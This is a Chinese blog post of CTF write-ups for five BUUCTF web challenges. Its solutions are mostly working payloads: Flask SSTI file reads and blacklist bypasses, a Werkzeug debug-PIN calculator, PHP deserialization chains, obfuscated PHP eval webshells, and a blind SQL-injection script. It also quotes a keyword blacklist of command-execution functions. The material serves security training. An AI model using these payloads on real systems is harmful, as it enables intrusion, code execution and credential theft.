






<!--yml
category: 未分类
date: 2022-04-26 14:36:22
-->

# BUUCTF__web题解合集（九）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108684697](https://blog.csdn.net/TM_1024/article/details/108684697)

## 前言

### 1、[GYCTF2020]FlaskApp

*   第一步能在解密页面随便输入比如说`1`引发报错，可以得到源代码，主要关注路由部分

```
@app.route('/decode',methods=['POST','GET'])

def decode():
    if request.values.get('text') :
        text = request.values.get("text")
        text_decode = base64.b64decode(text.encode())
        tmp = "结果 ： {0}".format(text_decode.decode())
        if waf(tmp) :
            flash("no no no !!")
            return redirect(url_for('decode'))
        res =  render_template_string(tmp) 
```

*   看到渲染函数`render_template_string` 尝试加密`{{2+2}}`并解密，回显4，说明存在`ssti注入`

*   继续往下读内容,只需修改下面的`filename`为需要读取的文件路径

    ```
    {{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }} 
    ```

*   payload可以平时积累，毕竟原理相同只需要根据实际题目修改一些东西就行。[这里有一些](https://www.cnblogs.com/hackxf/p/10480071.html)

*   读取源代码`app.py`，可以发现waf过滤。

```
def waf(str):
    black_list = ["flag","os","system","popen","import","eval","chr","request",
                  "subprocess","commands","socket","hex","base64","*","?"]
    for x in black_list :
        if x in str.lower() :
            return 1 
```

*   非预期解法就是通过拼接来绕过黑名单。

*   第一步就是拼接`import`和`os`来读取文件目录。

    ```
    {{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}} 
    ```

*   可以得知文件名`this_is_the_flag.txt`，当然直接访问是不可能的。

*   第二步。最强的操作，用`[::-1]`来讲字符串倒序，绕过flag黑名单。这样直接像上面读源码一样读取flag。

    ```
    {{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1], 'r').read() }} 
    ```

*   预期解的话就是利用PIN码进行RCE。

*   flask的debug模式下，网页输入pin码可以进行调试，也就是可以执行python代码。所以我们的目的是获取PIN码。如何生成，

> 通过PIN码生成机制可知，需要获取如下信息
> 
> > 服务器运行flask所登录的用户名。通过/etc/passwd中可以猜测为flaskweb 或者root，此处用的flaskweb
> > 
> > > modname。一般不变就是flask.app
> > > 
> > > > getattr(app, “__name__”, app.__class__.__name__)。python该值一般为Flask，该值一般不变
> > > > 
> > > > > flask库下app.py的绝对路径。报错信息会泄露该值。题中为/usr/local/lib/python3.7/site-packages/flask/app.py
> > > > > 
> > > > > > 当前网络的mac地址的十进制数。通过文件/sys/class/net/eth0/address 获取(eth0为网卡名)
> > > > > > 
> > > > > > > 机器的id
> > > > > > 
> > > > > > *   除一般不变的，我们还需要读取当前网络的mac地址的十进制数和机器id
> > > > > >     
> > > > > >     
> > > > > > *   其中，读取mac地址的话，依旧像上面读取题目源码一样读取`/sys/class/net/eth0/address`来获取。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     {{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address', 'r').read() }} 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   读取后转换为十进制。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ```
> > > > > > mac ='02:42:ae:01:0d:25'.replace(':','')
> > > > > > print(int(mac,base=16)) 
> > > > > > ```
> > > > > > 
> > > > > > *   然后就是机器码。虽然同样也是读文件来获取，但环境不同读取的文件也不同。题目环境为docker搭建，所以，读取机器码的文件名就应该为/proc`/self/cgroup`
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     {{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup', 'r').read() }} 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   其中机器码的形式为
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > > *   得到机器码 42f6bf497687d99f396aa2ddb6dddc8d4633803626ad0d43793fb1d992b213a5
> > > > > >     
> > > > > >     
> > > > > > *   然后用计算脚本
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ```
> > > > > > import hashlib
> > > > > > from itertools import chain
> > > > > > probably_public_bits = [
> > > > > >     'flaskweb',
> > > > > >     'flask.app',
> > > > > >     'Flask',
> > > > > >     '/usr/local/lib/python3.7/site-packages/flask/app.py',
> > > > > > ]
> > > > > > 
> > > > > > private_bits = [
> > > > > >     '2485410407952',
> > > > > >     '42f6bf497687d99f396aa2ddb6dddc8d4633803626ad0d43793fb1d992b213a5'  
> > > > > > ]
> > > > > > 
> > > > > > h = hashlib.md5()
> > > > > > for bit in chain(probably_public_bits, private_bits):
> > > > > >     if not bit:
> > > > > >         continue
> > > > > >     if isinstance(bit, str):
> > > > > >         bit = bit.encode('utf-8')
> > > > > >     h.update(bit)
> > > > > > h.update(b'cookiesalt')
> > > > > > 
> > > > > > cookie_name = '__wzd' + h.hexdigest()[:20]
> > > > > > 
> > > > > > num = None
> > > > > > if num is None:
> > > > > >     h.update(b'pinsalt')
> > > > > >     num = ('%09d' % int(h.hexdigest(), 16))[:9]
> > > > > > 
> > > > > > rv =None
> > > > > > if rv is None:
> > > > > >     for group_size in 5, 4, 3:
> > > > > >         if len(num) % group_size == 0:
> > > > > >             rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
> > > > > >                           for x in range(0, len(num), group_size))
> > > > > >             break
> > > > > >     else:
> > > > > >         rv = num
> > > > > > 
> > > > > > print(rv) 
> > > > > > ```
> > > > > > 
> > > > > > *   计算得到机器码`215-999-870`，然后再触发解密报错，点击右边的小黑框输入机器码。
> > > > > >     
> > > > > > *   然后就能执行python代码
> > > > > >     
> > > > > > *   然后读取文件目录获得flag。
> > > > > >     
> > > > > > *   这题的话，首先是ssti注入来读取文件。然后就选择拼接来绕过黑名单或者利用debug模式下的调试功能执行python代码来读取flag。
> > > > > > 
> > > > > > ### 2、[NPUCTF2020]ReadlezPHP
> > > > > > 
> > > > > > *   首先能在前端源代码中得到提示`./time.php?source` 虽然不能直接右键查看源代码，但可以抓包或者控制台里看见。
> > > > > > *   然后是很简单的PHP的反序列化。主要是这个`echo $b($a);` PHP动态函数
> > > > > > *   也就是以属性a为函数名，来执行作为函数参数的属性b。
> > > > > > *   最后一点就是寻找一个可执行函数，和找到flag所在位置。
> > > > > > *   首先可执行函数，可以命令执行，也可以执行 PHP 函数，还能进行文件操作。这里因为 flag 在 PHP 环境变量中，所以应该执行`phpinfo`函数来获取 flag。所以我们寻找一个执行函数，[看一下这个](https://www.cnblogs.com/xiaozi/p/7834367.html)
> > > > > > *   所以我们可以选择`assert`或`call_user_func`来讲phpinfo作参数来执行它。
> > > > > > *   序列化代码
> > > > > > 
> > > > > > ```
> > > > > > <?php
> > > > > > class HelloPhp
> > > > > > {
> > > > > >     public $a;
> > > > > >     public $b;
> > > > > > }
> > > > > > $c = new HelloPhp;
> > > > > > $c->a ="phpinfo";
> > > > > > $c->b ="call_user_func";	
> > > > > > echo serialize($c); 
> > > > > > ?> 
> > > > > > ```
> > > > > > 
> > > > > > *   传入在phpinfp页面中curl+f直接搜flag就行。
> > > > > >     
> > > > > > *   简单的反序列化和php动态函数执行。
> > > > > > 
> > > > > > ### 3、[MRCTF2020]Ezpop
> > > > > > 
> > > > > > *   同样是一题反序列化题目。先介绍一下这些不常见的魔术方法
> > > > > > 
> > > > > > > __invoke() 对象本身不能直接当函数用，如果被当做函数用，会直接回调__invoke方法
> > > > > > > __toString() 当一个对象被当作字符串对待的时候，会触发这个魔术方法
> > > > > > > __get($key) 当想要获取一个类的私有属性，或者获取一个类并为定义的属性时。该魔术方法会被调用。
> > > > > > 
> > > > > > *   首先看到类`Modifier`中的`include`函数加上前面提示的 flag.php 就能想到php伪协议读取源代码。所以最终目的是触发`__invoke()` 方法。同时将结果显示出来，就用到了类`Show`中的`__construct()`方法。
> > > > > > *   但要完成对`source`属性赋值的话，就需要调用`__toString()`方法，而方法`__wakeup()`在反序列化时被调用，调用后匹配字符串黑名单，这时就将`source`属性当作字符串来处理了。也就是能触发`__toString()`方法。
> > > > > > *   而给`source`属性赋值先是调用了`str`属性，如果让`str`实例化为类`Test`，那么再为`source`属性赋值的话，`source`属性在类`Test`中未定义，也就能触发 `__get($key)`方法返回一个函数，但只要这个函数是对象`Modifier`，就能触发`_invoke()`方法达到目的。
> > > > > > *   那么最后整个pop链的思路就是从类`Show`开始，让`source`属性作为一个对象，在反序列化时触发`__wakeup()`方法将`source`作为字符串来处理来触发`__toString()`方法，然后将str实例化为类`Test`，因为调用了未在`Test`中定义的属性`source`触发 `__get($key)`方法，只需将属性p实例化为`Modifier`类，这样被作为函数返回时，就能触发 `__invoke()`完成包含。
> > > > > > *   所以最后序列化代码
> > > > > > 
> > > > > > ```
> > > > > > <?php
> > > > > > class Modifier {
> > > > > >     protected  $var='php://filter/read=convert.base64-encode/resource=flag.php' ;
> > > > > > 
> > > > > > }
> > > > > > 
> > > > > > class Show{
> > > > > >     public $source;
> > > > > >     public $str;
> > > > > > 	public function __construct($file){
> > > > > >     $this->source = $file;
> > > > > >     }
> > > > > > }
> > > > > > 
> > > > > > class Test{
> > > > > >     public $p;
> > > > > > }
> > > > > > 
> > > > > > $a = new Show('a');
> > > > > > $a->str = new Test();
> > > > > > $a->str->p = new Modifier();
> > > > > > $b = new Show($a);
> > > > > > echo urlencode(serialize($b)); 
> > > > > > ```
> > > > > > 
> > > > > > *   必须url转码一下，不然会因为`protected`属性而出现乱码，用的`php://filter`伪协议，同时不在黑名单里。直接get传入base64解码就可以了。
> > > > > > *   反序列化最难的就是找利用链，我感觉逻辑还是不太清晰。
> > > > > > 
> > > > > > ### 4、[极客大挑战 2019]RCE ME
> > > > > > 
> > > > > > *   很简单的代码，过滤规则很简单，长度小于40，并且不能虽然数字和大小写字母。并且最终目的是用`eval`执行PHP代码。
> > > > > >     
> > > > > >     
> > > > > > *   知识点一，取反或异或绕过正则匹配。也就是生成我们所需字母和数字。可以[看看这个](https://blog.csdn.net/mochu7777777/article/details/104631142)。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     取反     (~%8F%97%8F%96%91%99%90)();
> > > > > >     异或     ${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   两种方法都能达到执行`phpinfo`函数的目的，其中取反是直接用的phpinfo，而异或是创建了一个get传参。
> > > > > >     
> > > > > >     
> > > > > > *   flag不在php环境变量里，没有发现明显的flag文件，那只能去根目录寻找，所以写一句话木马。但是`disable_functions`禁用了很多命令执行函数，所以接下来的思路就是绕过它。
> > > > > >     
> > > > > >     
> > > > > > *   一句话木马
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     取反    连接密码：a
> > > > > >       (~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9E%DD%A2%D6%D6);
> > > > > >     异或    连接密码：a
> > > > > >       ${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27a%27]) 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   方法一就是直接用蚁剑的插件绕过，找到根目录下的`readflag`文件并读取它，这似乎是非预期。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > 
> > > > > > 
> > > > > > *   步骤很简单，但知识点很难。都使用url编码是因为异或或取反可能会出现不可见字符。便于使用。
> > > > > > *   实际操作上，我感觉取反可能会更好一点，因为异或的话，情况太多。肯定得跑脚本，花的时间会长一点。下面是写一句话木马的取反代码
> > > > > > 
> > > > > > ```
> > > > > > <?php 
> > > > > > error_reporting(0);
> > > > > > $a='assert';
> > > > > > $b=urlencode(~$a);
> > > > > > echo $b;
> > > > > > echo  "\n";
> > > > > > $c='(eval($_POST["a"]))';
> > > > > > $d=urlencode(~$c);
> > > > > > echo $d;
> > > > > >  ?> 
> > > > > > ```
> > > > > > 
> > > > > > *   然后就是预期解法，看着就很复杂，有兴趣的可以[看看这个](https://www.cnblogs.com/yesec/p/12483631.html)。
> > > > > > *   有一说一，这绕正则的方法还是很秀，除了这个上面的介绍里还有其它的一些姿势。
> > > > > > *   第一步，就能在绕正则卡死，第二步就可能被函数黑名单卡死。。。
> > > > > > 
> > > > > > ### 5、[CISCN2019 总决赛 Day2 Web1]Easyweb
> > > > > > 
> > > > > > *   首先第一点就是`robots.txt`的提示源码泄露`*.php.bak` 但尝试 index.php 失败，可以在首页前端源代码中发现 image.php 和 user.php 。最终得到 image.php.bak 。
> > > > > >     
> > > > > >     
> > > > > > *   核心就是有一个先转义后置换为空的处理。不过看到下面的两个`\`并不是说替换两个，而是因为不写两个的话php会报错，多写一个是因为用来注释后面的，实际处理替换的还是一个`\`
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     $id=addslashes($id);
> > > > > >     $id=str_replace(array("\\0","%00","\\'","'"),"",$id); 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   显然，直接闭合sql语句是不可能，那么只能利用`\0` --> `\\0` --> `\`的处理过程来注释后面的单引号来完成注入。
> > > > > >     
> > > > > >     
> > > > > > *   原理是
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     where id ='111\'  or path='or id=if(a,1,0) # '; 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   被重新分割为 `id ='111\' or path='` 和`id=if(a,1,0)`，前面查询失败查询后面的，再利用id=0和id=1时回显不同可以进行布尔盲注。
> > > > > >     
> > > > > >     
> > > > > > *   所以写脚本。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ```
> > > > > > import requests
> > > > > > url = "http://84eba562-90eb-4cda-9329-a56e19b5d38d.node3.buuoj.cn/image.php?id=\\0&path=or 1="
> > > > > > result = ""
> > > > > > last = "tmp" 
> > > > > > i = 0
> > > > > > 
> > > > > > while( result != last ):
> > > > > > 	i = i + 1 
> > > > > > 	head=32
> > > > > > 	tail=127
> > > > > > 	while( head < tail ):
> > > > > > 		mid = (head + tail) >> 1
> > > > > > 		
> > > > > > 		
> > > > > > 		
> > > > > > 		
> > > > > > 		payload = "if(ascii(substr((select group_concat(password) from ciscnfinal.users ),%d,1))>%d,1,-1)%%23"%(i,mid)
> > > > > > 		
> > > > > > 		r = requests.get(url+payload)
> > > > > > 
> > > > > > 		if b"JFIF" in r.content :
> > > > > > 			head = mid + 1
> > > > > > 		else:
> > > > > > 			tail = mid
> > > > > > 	
> > > > > > 	last = result
> > > > > > 	
> > > > > > 	if chr(head)!=" ":
> > > > > > 		result += chr(head)
> > > > > > 	print(result) 
> > > > > > ```
> > > > > > 
> > > > > > *   得到admin账号和密码登录即可完成注入步骤。
> > > > > >     
> > > > > >     
> > > > > > *   登录成功后是一个文件上传界面，可以看到它的上传路径是日志文件，所以只需上传一个文件名为一句话木马的文件就行。
> > > > > >     
> > > > > >     
> > > > > > *   但文件名存在php关键字过滤。利用php短标签即可绕过。我做的时候用蚁剑连接非常不稳定，一会可以一会不行，并且用的`random`编码。
> > > > > >     
> > > > > >     
> > > > > >     
> > > > > >     ```
> > > > > >     filename="<?=@eval($_POST['a']);?>" 
> > > > > >     ```
> > > > > >     
> > > > > >     
> > > > > > *   这题的话，感觉不是很难，主要是得想到前面的注释。
> > > > > >     
> > > > > >     
> > > > > > 
> > > > > > ## 最后
> > > > > > 
> > > > > > *   飘了，同时发现实际能力还是不行，可能知道也不会做。
> > > > > > *   持续学习才是最重要的。